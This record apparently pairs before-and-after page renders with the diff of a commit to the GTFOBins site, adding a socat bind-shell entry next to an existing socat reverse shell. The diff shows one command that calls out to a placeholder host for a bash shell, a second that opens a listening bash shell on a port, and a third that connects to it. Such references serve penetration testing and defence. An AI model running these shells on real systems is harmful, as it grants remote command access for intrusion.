

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/socat.md, in a window 1280 px wide. Shown: the top 599 px of the page, without its empty margins (208-975 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add socat bind-shell

```diff
--- a/_gtfobins/socat.md
+++ b/_gtfobins/socat.md
@@ -6,4 +6,9 @@ functions:
         RHOST=10.0.0.1
         RPORT=12345
         socat tcp-connect:$RHOST:$RPORT exec:"bash -li",pty,stderr,setsid,sigint,sane
+  bind-shell:
+    - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:10.0.0.2:12345</code> to connect to the shell on the other end.
+      code: |
+        LPORT=12345
+        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
 ---
```
